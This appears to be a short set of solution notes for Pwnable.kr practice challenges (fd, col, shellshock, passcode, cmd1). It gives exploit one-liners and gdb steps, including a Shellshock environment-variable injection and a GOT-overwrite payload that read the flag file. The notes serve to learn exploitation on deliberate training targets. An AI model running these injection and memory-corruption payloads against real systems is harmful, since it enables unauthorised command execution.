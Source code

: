 # Pwnable.kr
### fd
./fd `python -c "print 0x1234+1"`
LETMEWIN
mommy! I think I know what a file descriptor is!!

### col

gdb col

col in gdb command:
disassemble check_password
b *0x080484bb
r
r AAAABBBBCCCCDDDDEEEE
info register
c
info register

python 
hex(0x21DD09EC  - (0x01010101 * 4))
0x1dd905e8

./col `python -c "print '\x01\x01\x01\x01'*4+'\xe8\x05\xd9\x1d'"`

daddy! I just managed to create a hash collision :)

### shellshock
env x='() { return;}; /bin/cat flag' ./shellshock }'' }'

### passcode
找到兩個scanf在stack的offset
(ebp – 0x10) – (ebp – 0x70) = 0x60 = 96
第一個scanf參數位置0xbffff3c8
第二個scanf參數位置0xbffff428
把剛剛取得的printf或fflush GOT位置寫入(%s)
再把system("/bin/cat flag")位置寫入(%d)
0x80485E3 -> 134514147
最後送出Payload是
python -c "print 'A'*96+'\x00\xa0\x04\x08'+'134514147\n'" | ./passcode

### cmd1
./cmd1 "/bin/cat f*"
